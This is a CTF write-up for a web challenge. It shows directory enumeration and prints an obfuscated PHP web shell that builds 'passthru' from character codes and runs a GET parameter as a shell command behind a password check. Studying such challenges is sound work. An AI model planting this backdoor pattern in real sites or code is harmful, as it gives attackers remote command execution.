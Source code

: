 # Challenge Name: Arcade Game


![date](https://img.shields.io/badge/date-17.04.2022-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)   
![category](https://img.shields.io/badge/category-WEB-blueviolet.svg)   
![value](https://img.shields.io/badge/value-150-blue.svg)  


## Description

A group of hackers succeeded to own our lovely arcade machine, till now we have no idea how or when but we are sure that they will come back, due to our analysis we think there's a backdoor, try to find it for us and read the flag.

[https://thnbdarija-arcade.chals.io/](https://thnbdarija-arcade.chals.io/)

_Author : EddieMora_


## Detailed solution  

Start by checking the website 

![image](https://user-images.githubusercontent.com/72421091/163740676-92c18d66-4575-4fbf-b341-cde1bbf0c4f7.png)

Source page has nothing intersting

Let's check for known files and do some directory bruteforcing 

```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/dirb/wordlists/big.txt -t 20 -u https://thnbdarija-arcade.chals.io/ -e php,txt,js
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://thnbdarija-arcade.chals.io/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/dirb/wordlists/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
2022/04/17 04:55:49 Starting gobuster in directory enumeration mode
===============================================================
https://thnbdarija-arcade.chals.io/.htpasswd            (Status: 403) [Size: 291]
https://thnbdarija-arcade.chals.io/.htaccess            (Status: 403) [Size: 291]
https://thnbdarija-arcade.chals.io/README               (Status: 200) [Size: 377]
https://thnbdarija-arcade.chals.io/css                  (Status: 301) [Size: 338][--> http://thnbdarija-arcade.chals.io/css/]
https://thnbdarija-arcade.chals.io/img                  (Status: 301) [Size: 338][--> http://thnbdarija-arcade.chals.io/img/]
https://thnbdarija-arcade.chals.io/js                   (Status: 301) [Size: 337][--> http://thnbdarija-arcade.chals.io/js/]
https://thnbdarija-arcade.chals.io/robots.txt           (Status: 200) [Size: 485]             
https://thnbdarija-arcade.chals.io/server-status        (Status: 403) [Size: 291]             
                                                                                                                                   
===============================================================
2022/04/17 04:58:26 Finished
===============================================================

```

- https://thnbdarija-arcade.chals.io/robots.txt the only accesible files are /README and /hint.txt
```
User-agent: Applebot
Disallow: /ajax/
Disallow: /album.php
Disallow: /checkpoint/
Disallow: /contact_importer/
Disallow: /dialog/
Disallow: /fbml/ajax/dialog/
Disallow: /feeds/
Disallow: /file_download.php
Disallow: /job_application/
Disallow: /l.php
Disallow: /moments_app/
Disallow: /p.php
Disallow: /photo.php
Disallow: /photos.php
Disallow: /plugins/
Disallow: /share.php
Disallow: /share/
Disallow: /sharer.php
Disallow: /sharer/
Disallow: /tr/
Disallow: /tr?
Disallow: /hint.txt
```

- https://thnbdarija-arcade.chals.io/README it shows the source code for a backdoor 

```php
<?php
$X = chr(0x73);
$R = chr(0x72);
$F = chr(0x75);

$cGFzc3dvcmQ = "b02dc9b178659a6ea480d72c94713469"; //password123@!
$owner = "logic";

//flag{try_h4rd3r_1337}

$B = chr(0x61);
$E = chr(0x68);
$D = chr(0x74);
$A = chr(0x70);

$hook = $A.$B.$X.$X.$D.$E.$R.$F;

if($cGFzc3dvcmQ === md5($_GET['key']) && $owner === $_GET['hint'])
{
  $hook($_GET['zip']);
}
else
{
  die();
}
```
$hook is the `passthru` function 
